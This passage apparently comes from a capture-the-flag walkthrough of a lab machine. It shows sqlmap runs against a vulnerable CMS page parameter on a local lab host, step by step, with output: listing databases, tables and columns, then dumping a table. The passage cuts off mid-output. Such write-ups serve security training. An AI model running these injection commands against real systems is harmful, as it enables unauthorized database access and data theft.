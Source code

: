 ## Exploitation
### SQL Injection

Using SQLmap I automated the exploitation process by listing the available databases.

```console
root@kali:~# sqlmap -u "http://172.16.178.128/imfadministrator/cms.php?pagename=disavowlist" -p pagename --cookie "PHPSESSID=jnreiqg2c01pclkj3hrbqbi4k4" --dbms mysql --dbs --batch
...
[*] admin
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

I retrieved the table from the admin database.

```console
root@kali:~# sqlmap -u "http://172.16.178.128/imfadministrator/cms.php?pagename=disavowlist" -p pagename --cookie "PHPSESSID=jnreiqg2c01pclkj3hrbqbi4k4" --dbms mysql -D admin --tables --batch
...
Database: admin
[1 table]
+-------+
| pages |
+-------+
```

The columns of the pages table was retrieved.

```console
root@kali:~# sqlmap -u "http://172.16.178.128/imfadministrator/cms.php?pagename=disavowlist" -p pagename --cookie "PHPSESSID=jnreiqg2c01pclkj3hrbqbi4k4" --dbms mysql -D admin -T pages --columns --batch
...
Database: admin
Table: pages
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| pagedata | text         |
| pagename | varchar(255) |
+----------+--------------+
```

Finally the content of the pages table was retrieved.

```console
root@kali:~# sqlmap -u "http://172.16.178.128/imfadministrator/cms.php?pagename=disavowlist" -p pagename --cookie "PHPSESSID=jnreiqg2c01pclkj3hrbqbi4k4" --dbms mysql -D admin -T pages -C id,pagedata,pagename --dump --batch
...
Database: admin
Table: pages
[4 entries]
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------+
| id | pagedata                                                                                                                                                              | pagename             |
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------+
| 1  | Under Construction.                                                                                                                                                   | upload               |
```